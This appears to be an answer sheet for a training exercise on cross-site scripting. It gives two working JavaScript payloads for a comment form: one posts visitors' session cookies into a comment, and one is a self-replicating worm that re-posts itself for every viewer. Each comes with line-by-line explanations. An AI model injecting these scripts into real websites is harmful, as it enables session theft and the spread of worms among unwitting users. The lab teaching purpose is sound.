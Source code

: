 Answer Sheet
============

Using Javascript to steal the session ID
----------------------------------------

.. code:: javascript

  <script>
    jQuery.post(
      "?page=comment.php",
      {
        "article_id": 1,
        "body": "My cookies are: " + document.cookie
      }
    )
  </script>


* ``document.cookie`` is the string containing the users' cookies.
  You can learn more about this string and its format
  at https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie.


Extension Challenge
----------------------------------------

.. code:: javascript

  This comment will be shared automatically by every user
  who views the page...!

  <script class="evil-script">
    jQuery.post(
      "?page=comment.php",
      {
        "article_id": 1,
        "body": jQuery(".evil-script").first().parent().html()
      }
    )
  </script>


* ``jQuery`` can be used as a function to search the document,
  and it returns a list of elements found using the selector string.
  The dot (``.evil-script``) at the beginning of
  the string is used to search for elements by class name.
  You can learn more about this function at http://api.jquery.com/jquery/.

* ``.first()`` is used to get only the first occurrence of the script,
  in case the page contains other scripts (or many copies of the script).

* ``.parent()`` is used to get the container of the comment, which
  includes both the script and the rest of the text of the comment.

* ``.html()`` is used to get the source code of the tag, including
  its Javascript content.

* ``This comment will be shared automatically...`` is the text of the payload
  message that will be visible to users and will be reshared automatically.
